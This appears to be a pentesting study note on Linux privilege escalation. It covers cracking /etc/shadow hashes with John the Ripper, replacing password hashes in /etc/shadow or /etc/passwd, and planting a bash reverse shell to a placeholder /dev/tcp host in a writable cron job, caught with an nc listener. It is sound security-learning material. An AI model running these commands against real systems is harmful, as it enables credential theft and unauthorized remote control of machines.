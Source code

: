 # Privileges Escalation - Linux

## Sensitive files
- `/etc/shadow` contains user password hashes and is usually readable only by the root user.<br>
<img src="../imgs/shadow.png" alt="shadowImg" />
That complex string between the first and second `:` is the hashed password of user "diego".

  - `john --wordlist=/usr/share/wordlists/rockyou.txt <hash.txt>` to try to brute force the hash and convert it into a plain text password.
    - if any worldlist is specified, the default one is `/usr/share/john/password.lst`
    - UPDATE: probably John The Ripper could return an error message because it doesn't recognize modern hashes, like `yescrypt`. Check it with `john <file> --format=crypt`
  - `mkpasswd -m sha-512 <new password>` to generate a new hashed password and then replace it.
<br><br>

- `/etc/passwd` contains info about users. It's world-readable, but usually only writable by the root user. 
Some versions of Linux will still allow password hashes to be stored there. We could exploit it in the same way of before.
<img src="../imgs/passwd.png" alt="passwdImg" />
That `x` means that any hash is set for user "diego."<br>
That `/home/diego` is his home directory.<br>
That `/bin/zsh` is his default shell.
  - `openssl passwd <new password>` to generate a new hashed password and then place it between the first and second `:`, replacing the `x`.
<br><br>

- `/etc/sudoers` contains info about permissions of users and groups. Its usually readable only by the root user.
<img src="../imgs/sudoers.png" alt="sudoersImg" />
<br><br>

- `/etc/crontab` is a scheduler of scripts. In this file. the user can schedule the cron jobs (programs to run at specific times or interval).
<img src="../imgs/crontab.png" alt="crontab"> 
Example of cron jobs scheduled to run every minute:
<img src="../imgs/cronjobseverymin.png" alt="cronjobseverymin">
  - If one of these cron jobs are world-writable, it's possible to modify and exploit them, for example with a reverse shell like this this one: 
  ```
  #!/bin/bash
  bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
  ```
  - `nc -lvnp <PORT>` on your own Terminal to start a NetCat reverse shell.


## Useful commands
- `su <user>` to switch between users
- `id` to get info about the current user
- `sudo -l` to list programs which sudo allows the current user to run
